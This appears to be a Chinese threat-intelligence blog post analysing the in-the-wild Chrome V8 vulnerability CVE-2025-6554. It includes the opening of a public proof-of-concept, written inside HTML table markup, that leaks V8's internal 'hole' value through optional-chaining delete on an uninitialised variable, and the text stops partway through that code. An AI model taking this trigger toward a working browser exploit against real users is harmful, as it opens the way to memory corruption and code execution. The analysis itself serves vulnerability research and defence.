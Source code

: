 #  Chrome 在野 0day CVE-2025-6554 浅析  
原创 红雨滴团队  奇安信威胁情报中心   2025-07-22 03:43  
  
概述  
  
该漏洞于 2025 年 6 月 30 日被 Google 修复并证实存在在野漏洞，之后时隔两天，相关 poc 便被研究员 @DarkNavyOrg 在 X 上公开，运行后效果如下。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2AqAgxkehicicSKx0RCkgbB19PoE3SBXJEjnvibibiaibX8bpjOlkL9x6GpeHjoS0wVRkK23xvoz1EIdibMb3RJJxTLug/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
详细分析  
  
漏洞的 poc 非常简单，核心可以看到就是函数 f，结合崩溃所示，可知这里 f 最终返回的实际上是一个 hole，hole 是 v8 中一个特殊的变量，用于表示形如 [1,,3] 中间空的变量位置。  
<table><tbody><tr style="mso-yfti-irow:0;mso-yfti-firstrow:yes;mso-yfti-lastrow:yes;"><td data-colwidth="269" width="151" valign="top" style="border: 1pt solid rgb(163, 163, 163);padding: 4pt;"><p style="margin:0cm;margin-bottom:.0001pt;word-break:break-all;"><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Times New Roman&#34;,serif;mso-bidi-font-family:Calibri;"><span leaf="">function</span></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Calibri&#34;,sans-serif;"></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Times New Roman&#34;,serif;mso-bidi-font-family:Calibri;"><span leaf="">f</span></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Calibri&#34;,sans-serif;"><span leaf="">() {</span><o:p></o:p></span></p><p style="margin:0cm;margin-bottom:.0001pt;word-break:break-all;"><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Times New Roman&#34;,serif;mso-bidi-font-family:Calibri;"><span leaf="">let</span></span><span lang="EN-US" style="font-size:
  11.0pt;font-family:&#34;Calibri&#34;,sans-serif;"></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Times New Roman&#34;,serif;mso-bidi-font-family:
  Calibri;"><span leaf="">x</span></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Calibri&#34;,sans-serif;"><span leaf="">;</span><o:p></o:p></span></p><p style="margin:0cm;margin-bottom:.0001pt;word-break:break-all;"><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Times New Roman&#34;,serif;mso-bidi-font-family:Calibri;"><span leaf="">delete</span></span><span lang="EN-US" style="font-size:
  11.0pt;font-family:&#34;Calibri&#34;,sans-serif;"></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Times New Roman&#34;,serif;mso-bidi-font-family:
  Calibri;"><span leaf="">x</span></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Calibri&#34;,sans-serif;"><span leaf="">?.[</span></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Times New Roman&#34;,serif;mso-bidi-font-family:Calibri;"><span leaf="">y</span></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Calibri&#34;,sans-serif;"><span leaf="">]?.</span></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Times New Roman&#34;,serif;mso-bidi-font-family:
  Calibri;"><span leaf="">a</span></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Calibri&#34;,sans-serif;"><span leaf="">;</span><o:p></o:p></span></p><p style="margin:0cm;margin-bottom:.0001pt;word-break:break-all;"><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Times New Roman&#34;,serif;mso-bidi-font-family:Calibri;"><span leaf="">return</span></span><span lang="EN-US" style="font-size:
  11.0pt;font-family:&#34;Calibri&#34;,sans-serif;"></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Times New Roman&#34;,serif;mso-bidi-font-family:
  Calibri;"><span leaf="">y</span></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Calibri&#34;,sans-serif;"><span leaf="">;</span><o:p></o:p></span></p><p style="margin:0cm;margin-bottom:.0001pt;word-break:break-all;"><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Times New Roman&#34;,serif;mso-bidi-font-family:Calibri;"><span leaf="">let</span></span><span lang="EN-US" style="font-size:
  11.0pt;font-family:&#34;Calibri&#34;,sans-serif;"></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Times New Roman&#34;,serif;mso-bidi-font-family:
  Calibri;"><span leaf="">y</span></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Calibri&#34;,sans-serif;"><span leaf="">;</span><o:p></o:p></span></p><p style="margin:0cm;margin-bottom:.0001pt;word-break:break-all;"><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Calibri&#34;,sans-serif;"><span leaf="">}</span><o:p></o:p></span></p><p style="margin:0cm;margin-bottom:.0001pt;word-break:break-all;"><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Times New Roman&#34;,serif;mso-bidi-font-family:Calibri;"><span leaf="">let</span></span><span lang="EN-US" style="font-size:
  11.0pt;font-family:&#34;Calibri&#34;,sans-serif;"></span><span lang="EN-US" style="font-size:11.0pt;font-family:&#34;Times New Roman&#34;,serif;mso-bidi-font-family:
  Calibri;"><span leaf="">hole</span></span><span lang="EN-US" style="font-size:11.0pt;font-family: